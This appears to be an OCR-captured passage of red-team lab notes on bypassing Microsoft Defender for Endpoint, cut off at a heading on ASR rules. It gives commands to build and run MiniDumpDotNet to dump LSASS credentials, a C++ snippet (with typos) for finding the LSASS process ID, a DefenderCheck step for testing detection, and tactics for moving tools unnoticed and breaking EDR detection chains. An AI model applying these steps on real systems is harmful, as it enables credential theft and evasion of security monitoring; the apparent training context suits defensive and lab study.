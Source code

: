 Like for example, 
MiniDumpDotNet (https://github.com/WhiteOakSecurity/MiniDumpDotNet) that implements a custom rewritten reimplementation of the MiniDumpWriteDump Windows API function. In this tool, the MiniDumpWriteDump function is reversed and a custom implementation is implemented based on a BOF (Beacon Object File) adaption and ReactOS source code. MiniDumpDotNet provides .NET CLR injectable LSASS process dumping capability along with CLR support (.NET runtime) to support execution through standalone binary, assembly.load(), PowerShell and JScript/VBS. It can also be used to dump other processes.
clone/download the project:
`git clone https://github.com/WhiteOakSecurity/MiniDumpDotNet.git` 
(build the project: Build -> Build Solution, that will generate both a binary exe, as well as a .NET class library)
Check for any detections:
`.\DefenderCheck.exe C:\AD\Tools\minidumpdotnet.exe`
Dump the LSASS process with minidumpdotnet:
`.\minidumpdotnet.exe <LSASS PID> <minidump file>`
#### **MDE Bypass - Credential Extraction - LSASS Dump using Custom APIs - Find LSASS PID**
Using commands like `tasklist /v` to enumerate the LSASS PID is detected by MDE. To avoid this, we can make use of standard WINAPIs to find the LSASS PID which is opsec safe.
In case of RDP access, tools like Task Manager (or other less suspicious alternatives) could also be used for finding LSASS PID.
Code snippet of a custom function called FindPID in C++ to dynamically enumerate the LSASS PID:
```C++
//Find PID of a process by name
int FindPID(const chat* procname)
{
	int pid=0;
	PROCESSSENTRY32 proc = {};
	proc.dwSize = sizeof(PROCESSSENTRY32);
	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0); bool bProc = Process32First(snapshot, &proc);
	while (bProc)
	{
		if (strcmp(procname, proc.szExeFile) == 0)
		{
			pid = proc.th32ProcessID;
			break;
		}
		bProc = Process32Next(snapshot, &proc);
	}
	return pid;
}

```
If the FindPID function is added to MiniDumpDotNet tool, there is a detection by MDE.
Using the FindPID code in a standalone executable is not detected by Defender AV or MDE. 
Lets call it FindLSASSPID.exe
`.\DefenderCheck.exe C:\AD\Tools\FindLSASSPID.exe`
#### **MDE Bypass - Tools Transfer and Execution**
Downloading tools over HTTP(S) can be risky as it does increase the risk score and chances of detection by the EDR. However, if binaries that are intended for downloads such as Edge (msedge.exe) are available on the target we can perform HTTP(S) downloads without any detections. Another opsec friendly option would be to share files over SMB. Execution can be directly performed from a readable share and is less risky than standard download and execute actions
#### **MDE Bypass - Breaking Detection Chains**
EDRs correlate activity in a specific time interval after which it is reset, this varies for each EDR. To bypass these correlation-based detections we can:
- Attempt to wait for a small-time interval (~10 mins) before performing the next query.
- Append non-suspicious queries in between subsequent suspicious ones to break detection chains. (In this case, we will run simple SQL queries on the eu-sql server) 
#### **MDE Bypass - Lateral Movement - ASR rules**
